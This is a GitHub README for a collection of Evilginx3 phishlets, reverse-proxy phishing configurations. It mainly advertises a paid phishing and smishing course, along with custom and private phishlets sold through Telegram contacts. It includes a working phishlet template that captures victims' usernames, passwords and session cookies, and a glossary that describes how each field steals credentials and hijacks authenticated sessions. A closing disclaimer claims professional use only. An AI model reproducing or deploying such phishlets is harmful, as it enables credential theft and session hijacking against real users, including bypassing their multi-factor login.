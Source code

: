 # Updated Evilginx3 Phishlets       
I've dedicated substantial time and effort to create and update new phishlets for Evilginx3. 
In this repository, you'll find many custom Evilginx phishlets, finely crafted and updated to suit real-world applications.
   
       
# FOR [Advanced EvilGoPhish Mastery Course] CONTACT IN MY TELEGRAM  -  https://t.me/hidden9090           

                                         
   
If not replying you than  I'm busy in that case , please    
Text my team  
(https://t.me/hidden9090team)
    
        

This is a course for the advanced hackers, red teams, and penetration testers looking to gain an edge in today's security environment.   
Learn advanced phishing & smishing techniques with EvilGoPhish 3.0, one of the most powerful reverse-proxy phishing tools available.

EvilGoPhish Mastery is *bar none* the most dynamic and nuanced reverse-proxy phishing course on the market.

The course works in tandem with this repo by diving deep into the entire process of deploying these scripts for red team phishing & smishing campaigns.

 

# Curriculum Previews:

![Screenshot 2024-06-01 064917](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/f506630f-06ff-4285-9c09-26fbcf57a588)
![evilgophish 3 0 course preview release setup section trailer](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/9be0b731-6934-4d52-ba7c-becb43141a96)
![Evilgophish mastery course cloudflare turnstile lesson preview www simplerhacking](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/0c22ecc6-9b6d-44c0-bf3f-e8624ecbd917)

![Screenshot 2024-06-01 044437](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/6a295035-e41a-4c9a-956a-c0366129088c)



![EvilGoPhish Mastery Curriculum Preview from Simpler Hacking (1)](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/cb043987-2315-47dc-abf6-9e508d7c1128)

![EvilGoPhish Mastery Curriculum Preview from Simpler Hacking (2)](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/6a3dd41e-72b4-4701-9675-53f8c765a246)

![(Smaller 8 MB for Github) evilgophish kuba graphic in moving format and gif short 8 second loop](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/cba899aa-e100-4af9-b621-f5dce14b2786)




## Need Custom Phishlets? 
MY TELEGRAM  -  https://t.me/hidden9090


If not replying you than  I'm busy in that case , please 
Text my team 
(https://t.me/hidden9090team)


##

## Simpler Hacking Evilginx Phishlet Template (Use this template to make your own!)

```yaml
name: 'Your First Phishlet'
author: 'Simpler Hacking'
min_ver: '3.2.0'

proxy_hosts:
  - { phish_sub: 'www', orig_sub: 'www', domain: '{domain}', session: true, is_landing: true }

sub_filters: 
  - { hostname: '{hostname}', sub: 'www', domain: '{domain}', search: '{domain}', replace: '{hostname}', mimes: ['text/html', 'application/javascript', 'text/css', 'application/json', 'image/x-icon', 'text/plain', 'application/xml', 'image/*', 'font/*']} 
  - { hostname: '{hostname}', sub: 'www', domain: '{domain}', search: '{domain}', replace: '{hostname}', mimes: ['application/x-www-form-urlencoded']}

auth_tokens:
  - domain: '{domain}'
    keys: ['session']

creds:
  - key: 'username'
    search: ['(.*)']
    type: 'post'
  - key: 'password'
    search: ['(.*)']
    type: 'post'

auth_urls:
  - url_regex: 'https://{hostname}/login'
    valid_statuses: [200]

login:
  username: user
  password: pass
  url: https://www.{domain}/login

# This is just a demo example of a phishlet for 3.2.0


```

CONTACT :- MY TELEGRAM - https://t.me/hidden9090



**Explanation of Phishlet Parameters:**

- `name:` Identifies the name of the phishlet.
- `author:` Specifies the phishlet author.
- `min_ver:` Specifies the minimum Evilginx version that is compatible with your phishlet.
- `proxy_hosts:` Indicates the domain and subdomains to proxy. The `phish_sub` is the subdomain that the phishing page will imitate.
- `sub_filters:` Allows the phishlet to replace instances of the actual domain name with the phishing domain, which is critical for the phishing page to function correctly.
- `auth_tokens:` Identifies the cookies that should be captured from the victim's browser to gain access to the victim's session.
- `creds:` This field determines the credentials that the phishlet is engineered to steal. The `key` is the name of the credential (like username or password) and `search` is a regular expression that the program will use to identify and extract these details from the user's input.
- `auth_urls:` Defines the URLs that Evilginx will treat as the authenticated URLs. After the victim logs in, Evilginx will look out for a redirect to one of these URLs, at which point it will steal the listed `auth_tokens`.
- `login:` Here you specify the identifiers of the username and password fields in the login form on the original webpage. The `url` is the link of the page where the victim enters their credentials.
- `force_post:` If set to true, it forces the alteration of HTTP method from GET to POST.
- `is_landing:` If set to true, it means that the page is a landing page for the phishing attack.
- `js_inject:` This is where you can write some JavaScript to be injected in the webpage. It's typically used to enhance the phishing attack and ensure a smoother victim experience.
- `domain:` This is a template variable used to replace target hostname used in phishlet configuration.



## Want more Evilginx Phishlets not available on Github? 
Gain access to more private Phishlets not available to the public Contact me  -  https://t.me/hidden9090

If not replying you than  I'm busy in that case , please 
Text my team 
(https://t.me/hidden9090team)



<img width="264" alt="Patreon" src="https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/3e9d587d-0792-4dad-a6d2-aaa004197508">



### Enroll in our training lessons            

CONTACT :-
MY TELEGRAM  -  https://t.me/hidden9090

If not replying you than  I'm busy in that case , please 
Text my team 
(https://t.me/hidden9090team)

## Disclaimer
The tools here are intended solely for legal and ethical use by cybersecurity professionals in controlled environments. 
Any illegal or malicious use is strictly prohibited.
I disclaim all responsibility for any harm, loss, or damage that may arise from improper use.


https://t.me/+1tDzjSCGDDs0ODA9
